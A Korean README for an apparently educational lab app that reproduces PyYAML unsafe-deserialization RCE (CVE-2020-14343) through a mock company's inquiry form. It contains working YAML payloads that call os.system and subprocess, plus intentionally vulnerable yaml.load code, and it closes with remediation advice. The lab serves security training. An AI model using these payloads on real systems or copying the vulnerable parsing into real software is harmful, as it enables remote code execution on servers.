 # 1x INV - PyYAML 역직렬화 RCE 취약점 실습 환경

## 📋 개요

이 프로젝트는 **PyYAML 역직렬화 RCE 취약점 (CVE-2020-14343)** 실습을 위한 웹 애플리케이션입니다.

자동차 네비게이션/OTA 솔루션 회사 웹사이트를 모방하여, 문의하기 기능에서 취약점을 재현합니다.

## 🔓 취약점 설명

### CVE-2020-14343: PyYAML 안전하지 않은 역직렬화

- **취약한 함수**: `yaml.load(data, Loader=yaml.Loader)`
- **위험도**: HIGH
- **영향**: 원격 코드 실행 (RCE) 가능
- **발생 위치**: 문의하기 제목에 `.yaml` 확장자를 붙여 제출할 때

### 취약점 동작 원리

1. 사용자가 문의하기 양식에서 제목에 `.yaml` 확장자를 포함하여 제출
2. PHP 백엔드가 제목의 확장자를 기반으로 파일 형식 결정
3. YAML 파일로 저장 후, Python 스크립트(`parse_yaml.py`)를 호출하여 파싱
4. **취약한 `yaml.load()`** 사용으로 인해 악의적인 YAML 페이로드 실행 가능

## 🚀 실행 방법

### 1. Docker Compose로 실행

```bash
cd website3
docker-compose up -d web
```

### 2. 접속

- 웹사이트: http://localhost:8000
- SUPPORT > 문의하기 메뉴 이용

## 🧪 취약점 테스트 방법

### 1. 정상적인 문의 (JSON 저장)

1. SUPPORT > 문의하기 클릭
2. 제목: "제품 문의" (확장자 없음 또는 `.json`)
3. 나머지 필드 입력 후 제출
4. `inquiries/` 폴더에 JSON 파일로 저장됨

### 2. YAML 파일로 저장 (취약점 발생)

1. SUPPORT > 문의하기 클릭
2. 제목: **"긴급 문의.yaml"** (`.yaml` 확장자 포함)
3. 내용:
```
일반 문의 내용
```
4. 제출 시 YAML 파일로 저장됨
5. 문의 내역 클릭 시 Python으로 파싱되며 취약점 발생

### 3. 악의적인 페이로드 (RCE)

**⚠️ 교육 목적으로만 사용하세요!**

1. 제목: **"테스트.yaml"**
2. 내용:
```yaml
!!python/object/apply:os.system
args: ['whoami']
```

또는:

```yaml
!!python/object/apply:subprocess.check_output
args: [['ls', '-la', '/var/www/html']]
```

3. 제출 후 문의 상세보기 클릭
4. Python 스크립트가 YAML 파싱 시 시스템 명령어 실행

## 📂 파일 구조

```
website3/
├── index.php               # 메인 페이지
├── support.php             # 지원 페이지 (FAQ + 문의하기)
├── inquiry-form.php        # 문의 작성 폼
├── parse_yaml.py           # PyYAML 파싱 스크립트 (취약점 포함)
├── api/
│   ├── submit_inquiry.php        # 문의 제출 API
│   ├── get_inquiries.php         # 문의 목록 조회 API
│   └── get_inquiry_detail.php    # 문의 상세 조회 API (YAML 파싱)
├── inquiries/              # 문의 저장 폴더 (JSON/YAML)
├── uploads/                # 첨부 파일 저장 폴더
├── Dockerfile              # Docker 이미지 (Python3 + PyYAML 포함)
└── docker-compose.yml      # Docker Compose 설정
```

## 🎯 취약점 포인트

### 1. [submit_inquiry.php](api/submit_inquiry.php:121-174)
```php
// 제목에서 확장자 추출
$subject = trim($data['subject']);
$subject_info = pathinfo($subject);
$file_extension = isset($subject_info['extension']) ? strtolower($subject_info['extension']) : 'json';

// YAML 파일로 저장
if ($file_extension === 'yaml' || $file_extension === 'yml') {
    $yaml_content = "...";
    file_put_contents($inquiry_path, $yaml_content);
}
```

### 2. [get_inquiry_detail.php](api/get_inquiry_detail.php:46-62)
```php
elseif ($extension === 'yaml' || $extension === 'yml') {
    // Python 스크립트로 YAML 파싱 (취약점!)
    $python_script = __DIR__ . '/../parse_yaml.py';
    $command = "python3 " . escapeshellarg($python_script) . " " . escapeshellarg($file_path);
    $output = shell_exec($command . " 2>&1");
    $inquiry = json_decode($output, true);
}
```

### 3. [parse_yaml.py](parse_yaml.py:20-24)
```python
# VULNERABLE CODE
data = yaml.load(f, Loader=yaml.Loader)
```

## 🛡️ 보안 권장사항

### 1. yaml.safe_load() 사용
```python
# 안전한 코드
data = yaml.safe_load(f)
```

### 2. PyYAML 5.4 이상 사용
```bash
pip install PyYAML>=5.4
```

### 3. 입력 검증
- 파일 확장자 화이트리스트 검증
- 신뢰할 수 없는 출처의 YAML 파싱 금지

### 4. 파일 업로드 제한
- 파일 형식을 사용자가 제어하지 못하도록 설정
- 서버에서 파일 타입 강제 지정

## ⚠️ 주의사항

- **이 실습 환경은 교육 목적으로만 사용하세요**
- 실제 운영 환경에서는 절대 사용하지 마세요
- 컨테이너 내부에서만 실행되므로 호스트 시스템은 격리됨

## 📚 참고 자료

- [CVE-2020-14343](https://nvd.nist.gov/vuln/detail/CVE-2020-14343)
- [PyYAML Security](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation)
- [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
